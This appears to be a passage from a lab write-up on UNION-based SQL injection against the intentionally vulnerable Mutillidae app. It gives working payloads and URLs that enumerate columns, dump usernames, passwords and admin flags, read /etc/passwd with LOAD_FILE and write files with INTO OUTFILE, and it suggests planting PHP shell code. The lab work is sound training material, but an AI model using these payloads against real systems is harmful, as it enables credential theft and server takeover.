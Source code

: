 In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table. image
![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/7448bad5-e504-4d06-86dc-5dfe5e63ec3f)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 
![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/f44fd7d5-0b65-41fa-9f33-9a84b532bb45)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/87940cf4-1e53-494c-a91d-44966f49c3c7)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/82277ab3-6a01-41c8-a090-b426a4091dbd)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
